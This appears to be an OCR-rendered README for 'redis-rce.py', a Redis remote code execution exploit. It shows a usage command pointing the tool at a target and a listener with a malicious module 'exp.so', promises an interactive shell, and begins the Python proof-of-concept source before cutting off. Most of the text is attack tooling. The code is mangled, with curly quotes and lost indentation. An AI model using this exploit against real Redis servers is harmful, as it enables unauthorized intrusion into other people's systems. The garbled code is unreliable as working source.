 ### example:

```
python redis-rce.py -r 127.0.0.1 -L 127.0.0.1 -f exp.so 
```

The default target port is 6379 and the default vps port is 21000.

And you will get an interactive shell!

### poc

```
#!/usr/bin/env python
# coding:utf-8
import socket
import os
import sys
import re
from time import sleep
import argparse
from six.moves import input

CLRF = “\r\n”

LOGO = R"""

█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄

█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀

█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄

█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀

█   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀

▀                                     ▀

“”"

def mk_cmd_arr(arr):

cmd = “”

cmd += “*” + str(len(arr))

for arg in arr:

cmd += CLRF + “$” + str(len(arg))

cmd += CLRF + arg

cmd += “\r\n”

return cmd

def mk_cmd(raw_cmd):

return mk_cmd_arr(raw_cmd.split(" "))

def din(sock, cnt):

msg = sock.recv(cnt)

```